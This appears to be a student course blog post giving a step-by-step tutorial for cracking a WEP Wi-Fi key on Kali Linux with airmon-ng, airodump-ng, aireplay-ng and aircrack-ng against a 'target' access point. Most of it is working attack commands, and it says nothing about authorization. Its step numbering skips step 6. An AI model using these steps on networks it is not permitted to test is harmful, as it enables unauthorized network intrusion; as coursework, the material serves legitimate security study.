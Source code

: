 ```yaml
---
layout: post
title: "Blog 8"
description: "CIT 480 blog 8"
categories: [uncategorized]
tags: [random, jekyll]
redirect_from:
  - /2019/11/2/
---
```


# How to hack WEP Key?

__Hardware/Software Requirements__

* ALFA Network AWUS036AC WiFi Adapter.
* Kali Linux.

__Step 1: Install WiFi Adapter Driver on Kali Linux__

* Driver on Alfa Network’s Website will probably not work on Kali Linux. So perform steps below.
* apt-get update
* apt-get upgrade
* apt-get install realtek-rtl88xxau-dkms

__Step 2: Set WiFi Adapter to Monitor Mode__

To check if adapter is present

* iwconfig

To put WiFi Adapter in monitor mode.

* airmon-ng start wlan0

If processes are present then kill the processes.
* airmon-ng check kill
Run Again
* airmon-ng start wlan0
Confirm WiFi Adapter is in Monitor Mode
* iwconfig

__Step 3: Scan Network__

Find your target
* Airodump-ng wlan0
Copy BSSID of Target AP
Remember channel number

__Step 4: Start a IV Capture on Target AP__

* Open New Terminal
* airodump-ng -c <channel-number> --bssid <AP BSSID> -w <file_name> -i wlan0
	* -c to specify AP’s broadcasting channel
	* --bssid to specify MAC of Target AP
	* -w to specify where to save your initialization vectors
	* -i to save initialization vectors only and discard all other data

__Step 5: Fake Authentication__

#WiFi Adapter needs to be associated with AP to be able to inject packets later. 
* Open New Terminal
* aireplay-ng -1 0 -e <SSID of Target AP> -a <BSSID of Target AP> wlan0
	* -1 means fake authentication
	* 0 means reassociation timing in seconds
	* -e to specify name of the network
	* -a is the access point MAC address

__Step 7: Packet Injection__

* Open New Terminal
* aireplay-ng -3 -b <AP MAC> wlan0
	* -3 ARP request replay
	* -b to specify AP MAC

__Step 8: Crack WEP Key__
#Collect enough IVs
* Open New Terminal
* aircrack-ng <file_name.cap>


























